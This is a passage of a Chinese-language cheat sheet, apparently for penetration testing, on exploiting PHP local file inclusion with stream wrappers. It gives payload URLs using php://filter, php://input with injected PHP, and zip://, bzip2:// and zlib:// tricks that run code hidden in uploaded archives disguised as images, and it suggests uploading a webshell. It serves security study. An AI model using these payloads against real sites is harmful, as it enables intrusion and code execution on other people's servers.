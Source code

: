             ```
            index.php?file1=php://filter/read=convert.base64-encode/resource=file.txt
            ```
          
        *   php://input
          
            ```php
            http://127.0.0.1/include.php?file=php://input
            [POST DATA部分]
            <?php phpinfo(); ?>
            ```

### zip://   bzip2://  zlib://

*   **条件**

    *   allow_url_fopen：无
    *   allow_url_include ：无
*   **作用**
    *   `zip:// & bzip2:// & zlib://` 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名，可修改为任意后缀：`jpg png gif xxx` 等等。


*   **用法**
  
    * `zip://[压缩文件绝对路径]%23[压缩文件内的子文件名]`（#编码为%23)
    
        ```url
        http://127.0.0.1/include.php?file=zip://E:\phpStudy\PHPTutorial\WWW\phpinfo.jpg%23phpinfo.txt  
        
        // 压缩 phpinfo.txt 为 phpinfo.zip ，压缩包重命名为 phpinfo.jpg ，并上传
        ```
        
    * compress.bzip2://file.bz2
    
        ```url
        http://127.0.0.1/include.php?file=compress.bzip2://E:\phpStudy\PHPTutorial\WWW\phpinfo.bz2   
        
        //压缩 phpinfo.txt 为 phpinfo.bz2 并上传（同样支持任意后缀名）
        ```
    
    * compress.zlib://file.gz
    
        ```url
        http://127.0.0.1/include.php?file=compress.zlib://E:\phpStudy\PHPTutorial\WWW\phpinfo.gz   
        
        //压缩 phpinfo.txt 为 phpinfo.gz 并上传（同样支持任意后缀名）
        ```

- 可以上传一个包含webshell的zip压缩文件。

### data://

*   **条件**
    *   allow_url_fopen：无
    *   allow_url_include：需要开启
*   **作用**
    *   自PHP>=5.2.0起，可以使用data://数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。

